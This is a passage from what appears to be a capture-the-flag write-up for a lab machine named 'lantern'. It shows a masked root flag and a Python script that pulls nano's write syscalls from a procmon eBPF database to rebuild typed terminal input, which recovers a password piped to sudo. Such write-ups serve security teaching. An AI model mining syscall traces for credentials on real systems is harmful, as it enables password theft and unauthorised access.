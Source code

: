 And I can grab `root.txt`:

```

root@lantern:~# cat root.txt
b498043f************************

```

#### Data Without Duplicate Rows

It turns out if I run `procmon` without any filters at the command line, the resulting data in the database doesn’t have the issue of duplicate rows to filter out. If I do that, I can use the following Python script:

```

import sqlite3

conn = sqlite3.connect('procmon_2024-11-29_11:34:04.db')
cursor = conn.cursor()

cursor.execute("SELECT * from ebpf where syscall = 'write'||x'00' and processname = 'nano'||x'00';")
rows = cursor.fetchall()

for row in rows:
    res = int(row[4])
    args = row[-1]
    buffer = args[8:8+res]
    print(buffer.decode().replace('\r', '\n'), end='')

print()

```

This time it uses the SQL query to filter for the target process name and syscall. There’s a lot of ANSI control codes in the data moving around the terminal (which makes sense for something like `nano` where the terminal is constantly rewriting the entire screen rather than just outputting on character at a time). I start to address with the `replace` call, but it doesn’t completely fix it. If I run this from a terminal that isn’t on the top line (after a `clear` or `reset`), it actually prints the results above the line it was run from. From the top, it looks like:

```

oxdf@hacky$ python extract_from_all.py 
backup.sh

e
e
echo Q3Eddtdw3pMB | sudo ./backup.sh
echo Q3Eddtd

```

There is likely more refinement that could happen here, but this is good enough for sure.